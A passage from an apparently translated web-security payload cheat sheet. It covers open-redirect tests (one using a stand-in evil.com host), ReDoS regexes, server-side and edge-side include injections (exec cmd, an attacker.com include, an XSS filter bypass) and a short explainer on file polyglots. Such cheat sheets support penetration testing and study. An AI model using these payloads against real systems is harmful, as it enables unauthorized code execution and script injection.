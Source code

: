 ```bash
www.whitelisted.com
www.whitelisted.com.evil.com
https://google.com
//google.com
javascript:alert(1)
```

## [ReDoS](../regular-expression-denial-of-service-redos.md)

### Osnovni testovi

```bash
(\\w*)+$
([a-zA-Z]+)*$
((a+)+)+$
```

## [Uključivanje sa strane servera/Uključivanje sa strane ivice](../server-side-inclusion-edge-side-inclusion-injection.md)

### Osnovni testovi

```markup
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="ls" -->
<esi:include src=http://attacker.com/>
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```

### Poligloti

A polyglot is a file that can be interpreted as different file types depending on the context in which it is executed. In the context of web hacking, polyglots can be used to bypass security measures and execute malicious code.

Polyglots are typically created by taking advantage of the similarities between different file formats. By carefully crafting a file that adheres to the specifications of multiple file formats, it is possible to create a polyglot that can be interpreted differently by different applications.

Polyglots can be used in various ways during a web hacking engagement. For example, a polyglot file can be uploaded to a web application that performs file type validation. If the application only checks the file extension, but not the file content, it may mistakenly interpret the polyglot as a different file type, allowing an attacker to bypass security measures.

Polyglots can also be used to exploit vulnerabilities in specific file parsers. By creating a file that triggers a vulnerability in a particular parser, an attacker can execute arbitrary code or gain unauthorized access to a system.

When working with polyglots, it is important to understand the specifications of the file formats involved and the behavior of the applications that interpret them. This knowledge is crucial for crafting effective polyglots and exploiting vulnerabilities.
